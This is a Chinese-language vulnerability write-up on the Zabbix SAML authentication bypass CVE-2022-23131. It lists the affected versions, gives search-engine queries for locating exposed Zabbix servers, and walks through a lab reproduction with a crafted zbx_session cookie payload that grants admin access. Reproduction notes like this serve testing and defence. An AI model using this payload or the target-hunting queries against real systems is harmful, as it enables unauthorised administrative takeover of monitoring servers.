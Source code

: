 # Zabbix SAML身份绕过漏洞 CVE-2022-23131

## 漏洞描述

Zabbix 是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。

Zabbix 由两部分构成，Zabbix Server与可选组件 Zabbix Agent。Zabbix Server 可以通过 SNMP、Zabbix Agent、Ping、端口监视等方法提供对远程服务器/网络状态的监视、数据收集等功能，它可以运行在 Linux、Solaris、HP-UX、AIX、Free BSD、Open BSD、OS X等平台上。

在启用 SAML SSO 身份验证（非默认）的情况下，未经身份验证的攻击者可以通过修改Cookie数据，绕过身份认证获得对 Zabbix 前端的管理员访问权限。

## 漏洞影响

```
Zabbix 4.0.36
Zabbix 5.4.0
Zabbix 5.4.8
Zabbix 6.0.0alpha1
```

## 网络测绘

```
app="ZABBIX-监控系统" && body="saml"
```

### Zoomeye

```
title:"ZABBIX"
```

### Shodan

```
title="ZABBIX"
```

## 环境搭建

环境搭建：

- https://github.com/trganda/dockerenv/tree/master/vuln/zabbix/CVE-2022-23131

登录页面

![image-20220525164121127](images/202205251641192-16855817173634.png)

## 漏洞复现

检测该漏洞的主要步骤为：

- 获取 Set-Cookie 数据 zbx_session 参数的值

- 通过 URL 解码和 Base64 解码获得 zbx_session 参数 json 格式数据

- 通过在 json 中添加 saml_data 和 username_attribute 参数后重新 Base64 编码和 URL 编码构造 Payload

- 在请 HTTP 求头中添加构造的 Payload，然后请求 index_sso.php

- 若 HTTP 响应头中包含 Location 头，说明存在漏洞，可直接进入管理界面

获取 Set-Cookie 数据，通过 URL 解码和 Base64 解码，得到如下数据：

```
{"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

构造如下 Payload：

```
{"saml_data":{"username_attribute":"Admin"},"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

在 Burpsuite 中将通过 Base64 编码和 URL 编码后的 zbx_session 参数带入请求 index_sso.php，成功登录。

也可以在浏览器中替换Cookie，点击 SAML登录。

![image-20220525165011891](./images/202205251650948.png)

